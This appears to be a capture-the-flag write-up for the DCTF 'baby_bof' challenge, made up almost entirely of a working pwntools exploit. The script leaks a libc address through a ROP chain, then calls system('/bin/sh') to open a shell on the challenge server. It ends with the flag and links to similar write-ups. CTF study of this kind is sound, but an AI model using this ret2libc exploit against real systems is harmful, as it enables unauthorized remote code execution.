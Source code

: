 ## ***BABY_BOF***

```py
from pwn import *

binary = context.binary = ELF('./baby_bof')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = remote('dctf-chall-baby-bof.westeurope.azurecontainer.io', 7481)
libc = ELF('./libc.so.6')

pop_rdi = next(binary.search(asm('pop rdi; ret')))

payload  = b''
payload += 0x12 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.vuln)

p.sendlineafter('me\n',payload)
p.recvuntil('work\n')

puts = u64(p.recv(6) + b'\0\0')
log.info('puts: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))

payload  = 0x12 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

p.sendlineafter('me\n',payload)
p.recvuntil('work\n')
p.interactive()
```
Flag : ***```dctf{D0_y0U_H4v3_A_T3mpl4t3_f0R_tH3s3}```***

https://github.com/datajerk/ctf-write-ups/blob/master/INDEX.md

similiar : https://github.com/datajerk/ctf-write-ups/tree/master/darkctf2020/roprop 
           
   https://github.com/datajerk/ctf-write-ups/tree/master/downunderctf2020/return_to_what
